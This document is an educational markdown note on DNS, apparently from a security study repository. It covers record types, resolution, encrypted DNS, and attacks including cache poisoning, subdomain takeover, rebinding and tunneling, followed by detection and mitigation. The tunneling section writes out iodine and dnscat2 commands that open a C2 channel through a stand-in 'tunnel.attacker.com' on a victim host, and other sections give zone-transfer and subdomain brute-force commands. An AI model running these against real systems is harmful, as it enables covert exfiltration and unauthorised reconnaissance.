



# DNS — Domain Name System

> **DNS translates human-readable domain names into IP addresses — and it's full of attack surface.**

---

## 🧠 What Is It? (Beginner Explanation)

DNS is the internet's phone book. Without it, you'd need to memorize `93.184.216.34` instead of `example.com`. Every time you visit a website, send an email, or load an app, DNS runs behind the scenes.

**Why it matters for hacking:**
- DNS is unauthenticated by default (no signature verification without DNSSEC)
- DNS records reveal infrastructure (subdomains, mail servers, hosting providers)
- DNS attacks can redirect users to malicious servers
- DNS can be used to exfiltrate data when other channels are blocked

---

## 🏗️ DNS Record Types

| Record | Full Name           | Purpose                                              | Security Relevance                          |
|--------|---------------------|------------------------------------------------------|---------------------------------------------|
| A      | Address             | Maps hostname → IPv4 address                         | Main attack target for hijacking            |
| AAAA   | IPv6 Address        | Maps hostname → IPv6 address                         | Often overlooked in security filters        |
| CNAME  | Canonical Name      | Alias: maps hostname → another hostname              | Dangling CNAMEs → subdomain takeover        |
| MX     | Mail Exchange       | Mail server for domain                               | Reveals mail provider; phishing target      |
| TXT    | Text               | Arbitrary text: SPF, DKIM, DMARC, domain verification | SPF enumeration, cloud verification tokens |
| NS     | Name Server         | Authoritative nameservers for domain                 | NS takeover if registrar account compromised|
| PTR    | Pointer             | Reverse lookup: IP → hostname                        | Reveals internal hostnames during recon     |
| SOA    | Start of Authority  | Zone metadata: primary NS, admin email, serial       | Admin email in SOA useful for OSINT         |
| SRV    | Service             | Service location: `_http._tcp.example.com`           | Reveals services (SIP, XMPP, etc.)          |
| CAA    | Certification Auth  | Which CAs can issue certs for domain                 | Bypass if misconfigured; recon for CA used  |

### Querying Each Record Type

```bash
# A record
dig example.com A

# AAAA record  
dig example.com AAAA

# MX records
dig example.com MX

# TXT records (SPF, DKIM, etc.)
dig example.com TXT

# NS records
dig example.com NS

# SOA record (admin email in 2nd field — @ replaced with .)
dig example.com SOA

# SRV record
dig _https._tcp.example.com SRV

# CAA record
dig example.com CAA

# PTR (reverse lookup)
dig -x 93.184.216.34

# ALL records (often restricted by server)
dig example.com ANY
```

---

## 🏗️ DNS Resolution Process — Step-by-Step

When you query `sub.example.com`:

1. **Browser DNS cache** — has it been queried recently? Check TTL
2. **OS DNS cache** — `nscd`/`systemd-resolved` cache
3. **`/etc/hosts` file** — local overrides (pentest target for privilege escalation)
4. **Recursive Resolver** — usually your ISP's resolver or 8.8.8.8, 1.1.1.1
5. **Root Nameservers** — 13 root server clusters (a.root-servers.net – m.root-servers.net) — delegate `.com` queries to TLD servers
6. **TLD Nameserver** — `.com` TLD servers operated by Verisign — delegate `example.com` to its authoritative NS
7. **Authoritative Nameserver** — the server that has the actual DNS records for `example.com`
8. **Answer returned** — resolver caches it per TTL, returns to client

---

## 📊 Diagram — DNS Resolution Flow



---

## ⚙️ DNS Caching and TTL

- **TTL (Time To Live):** How long (seconds) a record is cached
- Low TTL (60-300s): Frequent lookups, easier to update — but more exposure to cache poisoning
- High TTL (86400s = 1 day): Fewer lookups — but changes take time to propagate
- **Attacker implication:** If you successfully poison a cache with high TTL, the victim stays poisoned longer

```bash
# Check current TTL on a record
dig +nocmd example.com A +noall +answer
# Shows: example.com.   3600  IN  A  93.184.216.34
#                       ^^^^  TTL in seconds
```

---

## 🔒 DNS over HTTPS (DoH) and DNS over TLS (DoT)

Traditional DNS is sent **in plaintext** — your ISP, network admin, and any MITM can see every domain you visit.

| Feature     | Classic DNS   | DoT (DNS-over-TLS)         | DoH (DNS-over-HTTPS)           |
|-------------|---------------|----------------------------|--------------------------------|
| Port        | 53 UDP/TCP    | 853 TCP                    | 443 TCP                        |
| Encryption  | None          | TLS                        | HTTPS (TLS)                    |
| Privacy     | None          | From network observers     | From network observers         |
| Blocking    | Easy to block | Identifiable, blockable    | Hard to block (looks like HTTPS)|
| Tools       | dig, nslookup | `kdig`, `stubby`           | `curl`, browsers natively      |

```bash
# Query via DoH (Cloudflare)
curl -s "https://1.1.1.1/dns-query?name=example.com&type=A" \
  -H "Accept: application/dns-json" | jq '.Answer[]'

# Query via DoT with kdig (knot-dnsutils)
kdig @1.1.1.1 +tls example.com A
```

**Pentest implication:** Malware and C2 agents increasingly use DoH to bypass corporate DNS monitoring.

---

## 💥 DNS Security Attacks

### 1. DNS Cache Poisoning (Kaminsky Attack)

**What it is:** Inject a forged DNS record into a resolver's cache so all users of that resolver get directed to the attacker's IP.

**How it works (Kaminsky, 2008):**

1. Attacker sends many requests for random subdomains of target: `rand1.example.com`, `rand2.example.com`, etc.
2. For each request, attacker races to send forged responses with the correct transaction ID
3. Response includes a forged NS record: "example.com's nameserver is at 1.2.3.4 (attacker's server)"
4. If attacker wins the race (before the real response), the poison lands in cache
5. All future queries for `example.com` from that resolver go to attacker

**Why random subdomains?** Forces the resolver to make a fresh external lookup (cache miss), giving the attacker a window to inject.

**Transaction ID brute force:** DNS uses a 16-bit TxID (65,536 possibilities). With source port randomization (RFC 5452), effective space = 16-bit TxID × ~64,000 ports = ~4 billion combinations.



**Mitigation:** DNSSEC (cryptographic signing), source port randomization (RFC 5452), 0x20 encoding, DNS-over-TLS/HTTPS

---

### 2. DNS Hijacking

**Types:**

| Type             | How                                                    | Example                                           |
|------------------|--------------------------------------------------------|---------------------------------------------------|
| Local            | Modify `/etc/hosts` or local DNS settings via malware  | Malware adding entries to `C:\Windows\System32\drivers\etc\hosts` |
| Router           | Compromise home/office router, change DNS settings     | DNSChanger malware (2011-2012, infected 4M routers)|
| ISP-level        | ISP redirects NXDOMAIN to ad pages                     | Many ISPs do this by default                      |
| Attacker-controlled | Compromise domain registrar account, change NS    | GoDaddy account breach → change NS records        |
| BGP-level        | Hijack BGP routes to the DNS provider's IP range       | 2018 MyEtherWallet attack                         |

---

### 3. Subdomain Takeover

**What it is:** A subdomain points (via CNAME) to an external service that is no longer in use. Attacker claims the external service, now controlling the subdomain.

**Step-by-step:**

```
1. Target has: staging.example.com CNAME → myapp.github.io
2. Developer deletes the GitHub Pages project
3. CNAME still exists pointing to unclaimed myapp.github.io
4. Attacker creates a GitHub Pages repo claiming myapp.github.io
5. staging.example.com now serves attacker content!
```

**Why it's critical:**
- Full origin: `https://staging.example.com` — attacker controls it
- Can steal cookies (if `Domain=.example.com` cookies are set without `HttpOnly`)
- Can bypass CSP (subdomain is whitelisted)
- OAuth redirect URIs sometimes allow subdomains
- Can host phishing pages on trusted domain

**Vulnerable Services:**

| Service          | CNAME Pattern                        | Fingerprint (404 text)                    |
|------------------|--------------------------------------|-------------------------------------------|
| GitHub Pages     | `*.github.io`                        | "There isn't a GitHub Pages site here"    |
| AWS S3           | `*.s3.amazonaws.com`                 | "NoSuchBucket"                            |
| Heroku           | `*.herokuapp.com`                    | "No such app"                             |
| Azure            | `*.azurewebsites.net`                | "404 Web Site not found"                  |
| Shopify          | `*.myshopify.com`                    | "Sorry, this shop is currently unavailable"|
| Fastly           | `*.fastly.net`                       | "Fastly error: unknown domain"             |
| Netlify          | `*.netlify.com`                      | "Not Found"                               |

```bash
# Find dangling CNAMEs with subfinder + httpx
subfinder -d example.com -o subs.txt
cat subs.txt | httpx -silent -status-code -title | grep "404\|No such\|doesn't exist"

# Check a specific CNAME
dig CNAME staging.example.com
# If it returns *.github.io, test if that page exists

# Automated takeover checker
# https://github.com/EdOverflow/can-i-take-over-xyz
python3 takeover.py -l subs.txt

# nuclei templates for subdomain takeover
nuclei -l subs.txt -t ~/nuclei-templates/takeovers/
```

---

### 4. DNS Rebinding

**What it is:** Attacker's DNS server changes the IP of their domain after the browser's initial check — bypassing Same-Origin Policy to attack internal services.

**Attack Flow:**



**Exploitation tool:** [Singularity of Origin](https://github.com/nccgroup/singularity)

**Mitigation:**
- DNS rebinding protection in browsers (Chrome 63+): won't resolve public DNS → private IP
- Web servers should validate `Host:` header
- Bind admin interfaces to `127.0.0.1` only, not `0.0.0.0`
- Use DNS rebind protection in routers (e.g., dnsmasq `--stop-dns-rebind`)

---

### 5. DNS Tunneling

**What it is:** Encoding arbitrary data in DNS queries/responses to exfiltrate data or establish C2 channels when HTTP/TCP is blocked.

**How it works:**
- Data is base32/base64 encoded and sent as subdomain labels: `Y29tcHJvbWlzZWQ.attacker.com`
- Attacker controls `attacker.com` nameserver, receives and decodes queries
- Responses carry data back as TXT records

**Tools:**

```bash
# iodine — tunnel IP over DNS
# Server side (attacker controls ns1.tunnel.attacker.com)
iodined -f -c -P s3cr3t 10.0.0.1 tunnel.attacker.com

# Client side
iodine -f -P s3cr3t ns1.tunnel.attacker.com
# Now have tun0 interface with IP 10.0.0.2 → full TCP/IP over DNS!

# dnscat2 — C2 over DNS
# Server
ruby dnscat2.rb --dns "domain=tunnel.attacker.com" --no-cache

# Client (on victim)
./dnscat --dns "domain=tunnel.attacker.com"
```

**Detection signatures:**
- High volume of DNS queries (normal: <10/sec; tunneling: 100s/sec)
- Unusually long subdomain labels (max normal: 63 chars; tunneling: often maxed out)
- High entropy in subdomain names (random base64 vs. readable names)
- DNS over non-standard ports
- Single domain receiving disproportionate query volume

---

## 🔒 DNSSEC Explained

DNSSEC adds **digital signatures** to DNS records, allowing resolvers to verify records haven't been tampered with.

**Record types added by DNSSEC:**

| Record  | Purpose                                                |
|---------|--------------------------------------------------------|
| RRSIG   | Cryptographic signature for a record set               |
| DNSKEY  | Public key used to verify signatures                   |
| DS      | Hash of child zone's DNSKEY — creates chain of trust   |
| NSEC    | Proof of non-existence (but enables zone enumeration!) |
| NSEC3   | Hashed proof of non-existence (resists enumeration)    |

```bash
# Check if DNSSEC is enabled
dig +dnssec example.com A

# Verify DNSSEC chain
dig +sigchase +trusted-key=/etc/trusted-key.key example.com

# Check DS record at parent
dig DS example.com @a.gtld-servers.net
```

> ⚠️ **NSEC Zone Walking:** DNSSEC without NSEC3 allows enumeration of ALL hostnames in a zone via `NSEC` chaining. Tools: `ldns-walk`, `nsec3walker`.

---

## 🛠️ Tools Cheatsheet

### dig — Complete Reference

```bash
# Basic query
dig example.com

# Specify record type
dig example.com MX
dig example.com TXT
dig example.com NS
dig example.com ANY

# Query specific resolver
dig @1.1.1.1 example.com A
dig @8.8.8.8 example.com A

# Trace full resolution chain
dig +trace example.com

# Reverse DNS
dig -x 93.184.216.34

# Short output only
dig +short example.com

# Show TTL, no extra info
dig +nocmd +noall +answer example.com A

# AXFR zone transfer attempt
dig AXFR example.com @ns1.example.com

# Batch queries
dig -f domains.txt A
```

### Zone Transfer Testing

```bash
# Find nameservers first
dig NS example.com

# Attempt zone transfer from each NS
dig AXFR example.com @ns1.example.com
dig AXFR example.com @ns2.example.com

# Using host command
host -t AXFR example.com ns1.example.com

# Using nmap NSE script
nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=example.com -p 53 ns1.example.com

# Using dnsrecon
dnsrecon -d example.com -t axfr
```

> If zone transfer succeeds, you get **all DNS records** — a complete map of the infrastructure!

### Subdomain Enumeration

```bash
# subfinder — passive subdomain discovery
subfinder -d example.com -o subdomains.txt

# amass — comprehensive enumeration
amass enum -passive -d example.com -o amass_output.txt
amass enum -active -d example.com -brute -w /usr/share/wordlists/dns/subdomains-top1million.txt

# dnsx — DNS resolution and validation  
cat subdomains.txt | dnsx -silent -a -resp

# fierce — traditional subdomain scanner
fierce --domain example.com --dns-servers 8.8.8.8

# dnsrecon — comprehensive DNS recon
dnsrecon -d example.com -t std    # Standard scan
dnsrecon -d example.com -t brt -D /path/to/wordlist.txt  # Bruteforce
dnsrecon -d example.com -t axfr  # Zone transfer
dnsrecon -d example.com -t goo   # Google enumeration
```

### nslookup (Windows-friendly)

```bash
# Interactive mode
nslookup
> server 8.8.8.8
> set type=MX
> example.com

# One-liner
nslookup -type=TXT example.com 8.8.8.8
```

---

## 🔍 Detection

| Attack               | Detection Method                                                        |
|----------------------|-------------------------------------------------------------------------|
| Cache poisoning      | DNSSEC validation failures; unexpected record changes in monitoring     |
| Zone transfer        | Log all AXFR/IXFR requests; alert on transfers from unauthorized IPs    |
| DNS tunneling        | High query rate; high-entropy subdomain names; oversized TXT responses  |
| Subdomain takeover   | Monitor CNAME targets for 404/service-gone responses                    |
| DNS hijacking        | Compare DNS responses against known-good baseline; certificate monitoring |
| Rebinding            | Alert when DNS resolves to RFC 1918 addresses for public domains         |

---

## 🛡️ Mitigation

| Attack               | Mitigation                                                                      |
|----------------------|---------------------------------------------------------------------------------|
| Cache poisoning      | Enable DNSSEC; use source port randomization; deploy DoT/DoH                   |
| Zone transfer        | Restrict AXFR to authorized secondary nameservers by IP in BIND/PowerDNS config |
| Subdomain takeover   | Audit CNAME records regularly; delete DNS entries before deprovisioning services |
| DNS tunneling        | Block anomalous DNS traffic patterns; use DNS filtering (Pi-hole, Cisco Umbrella)|
| DNS hijacking        | Use registrar locks; enable 2FA on domain registrar; use registry lock          |
| DNS rebinding        | Validate Host header in server; bind services to localhost only                 |

### Restrict Zone Transfer in BIND

```bash
# /etc/bind/named.conf.options
acl "trusted-secondaries" {
    192.168.1.10;  # Secondary NS IP
    192.168.1.11;
};

zone "example.com" {
    type master;
    file "zones/example.com";
    allow-transfer { trusted-secondaries; };  # Only allow listed IPs
};
```

---

## 📚 References

- [RFC 1034/1035 — Domain Names Concepts and Implementation](https://www.rfc-editor.org/rfc/rfc1035)
- [RFC 4033/4034/4035 — DNSSEC](https://www.rfc-editor.org/rfc/rfc4033)
- [RFC 7858 — DNS over TLS](https://www.rfc-editor.org/rfc/rfc7858)
- [RFC 8484 — DNS over HTTPS](https://www.rfc-editor.org/rfc/rfc8484)
- [OWASP Testing Guide — DNS Infrastructure Testing](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/01-Test_Network_Infrastructure_Configuration)
- [Can I Take Over XYZ — Subdomain Takeover Reference](https://github.com/EdOverflow/can-i-take-over-xyz)
- [Kaminsky Attack Original Paper](https://www.cs.cornell.edu/courses/cs5430/2013sp/kaminsky.pdf)
- [SANS DNS Tunneling Detection](https://www.sans.org/blog/detecting-dns-tunneling/)
